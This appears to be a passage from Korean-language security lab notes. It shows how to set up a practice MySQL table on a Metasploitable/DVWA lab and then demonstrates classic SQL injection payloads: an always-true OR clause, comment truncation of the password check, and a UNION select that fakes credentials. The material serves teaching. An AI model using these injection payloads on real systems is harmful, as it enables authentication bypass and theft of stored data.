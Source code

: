 		- `exploit`<br><img src="/assets/img/칼리설치25.png" style="float: left; margin: 0 10px 10px 0; width: 400px;">

<br>

#### 4. SQL 인젝션
- 사용자가 서버에 제출한 데이터가 SQL Query로 사용되어 DB나 시스템에 영향을 주는 공격기법
	- Metasploit 접속 → ID : root , PW : password
	- mysql 접속
	    - DB 생성 후 접속
	        - `create database injectiond;`
	        - `use injectiond;`
	    - Table 생성
	        - `create table injectiont ( num int(10) auto_increment primary key, user varchar(20) not null, password varchar(20) null ) engine=InnoDB default charset=utf8;`
	    - 데이터 삽입
	        - `insert into injectiont (user,password) values ('root','4321');`
	        - `insert into injectiont (user,password) values ('mouse','4321');`
	        - `insert into injectiont (user,password) values ('dragon','4321');`
	        - `insert into injectiont (user,password) values ('monkey','4321');`
	    - DB 데이터 확인 공격(Injection)
	        - `select * from injectiont where user = 'dragon' or '10' = '10';# and password = '1234';`
	        - `select * from injectiont where user = 'dragon' and password = '4321' or '10' = '10';`
	    - DB 변경
	        - `use dvwa;`
	    - DVWA DB 내의 유저 정보의 비밀번호를 속이는 방법
	        - `select user,password from users where uesr = '' union select 'admin','4321';`